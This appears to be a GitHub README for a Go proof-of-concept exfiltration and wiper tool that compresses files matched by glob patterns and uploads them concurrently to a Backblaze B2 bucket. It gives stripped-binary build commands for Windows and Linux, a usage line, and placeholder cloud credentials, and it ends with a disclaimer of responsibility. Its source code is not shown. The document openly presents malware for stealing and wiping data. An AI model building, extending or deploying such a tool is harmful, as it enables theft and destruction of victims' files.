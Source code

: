 # golang exfil malware POC

A high-performance file exfil/wiper for Backblaze B2 that uses goroutines for concurrent uploads and zstd compression for reduced file sizes.

## Features

- Concurrent file uploads using goroutines
- zstd compression with fastest preset
- Dynamic CPU-based worker scaling
- Progress tracking
- Glob pattern support for file selection
- Efficient memory usage with buffer pools
- Automatic file grouping for optimal uploads

## Prerequisites

- Go 1.19 or later
- Backblaze B2 account and credentials

# To Build

```bash
go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```
or for linux (will require you to add in linux target dirs and skip paths in walker.go)

```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```




## Usage

```bash
./uploader.exe -glob "path/to/files/*.txt" -group-size 100000000
```
or just run it to use default config

## Configuration

The application is configured to use:
- Endpoint: s3.region-here.backblazeb2.com
- Bucket: bucket-name-here
- Key ID: key-id-here
- Key Name: key-name-here
- App Key: app-key-here

## NOTICE

This is a proof of concept and is not meant to be used in production or for any malicious purposes. I am not responsible for your actions, or repurposing of this code.




